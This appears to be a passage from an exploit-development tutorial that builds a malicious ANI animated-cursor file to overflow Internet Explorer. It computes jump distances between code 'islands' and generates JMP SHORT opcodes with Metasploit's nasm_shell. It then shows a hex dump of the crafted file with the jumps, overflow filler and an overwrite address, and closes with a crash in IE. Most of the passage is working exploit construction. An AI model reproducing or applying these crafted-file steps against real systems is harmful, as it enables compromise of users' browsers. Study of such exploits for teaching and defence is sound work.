





Jump from small islands in ANI file
Finding locations of islands to be modified
0x1C for second island

0x4 for first island

First island JMP distance0x1c - 0x4 = 0x18
Distance to begin of buffer from second island
0x97 for begin of buffer

Begin of buffer to second island JMP distance0x97 - 0x1c = 7B
Generate JMP SHORT opcodes
$ /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > jmp short 0x18
00000000 EB16 jmp short 0x18
nasm > jmp short 0x7B
00000000 EB79 jmp short 0x7b
nasm >
Putting JMP locations in ANI file
$ xxd mod4.ani
00000000: 5249 4646
eb16 0000 4143 4f4e 616e 6968 RIFF....ACONanih
00000010: 2400 0000 2400 0000 0200 0000
eb79 0000 $...$........y..
00000020: 0000 0000 0000 0000 0000 0000 0000 0000 ................
00000030: 0000 0000 0100 0000 616e 6968 5600 0000 ........anihV...
00000040: 4141 4141 4141 4141 4141 4141 4141 4141 AAAAAAAAAAAAAAAA
00000050: 4141 4141 4141 4141 4141 4141 4141 4141 AAAAAAAAAAAAAAAA
00000060: 0041 4141 4141 4141 4141 4141 4141 4141 .AAAAAAAAAAAAAAA
00000070: 4141 4141 4141 4141 4141 4141 0000 0000 AAAAAAAAAAAA....
00000080: 0000 0000 0000 0000 0000 0000 0000 0000 ................
00000090: 4242 4242 0b70 cccc BBBB.p..
Reopen ANI file in IE, crashes
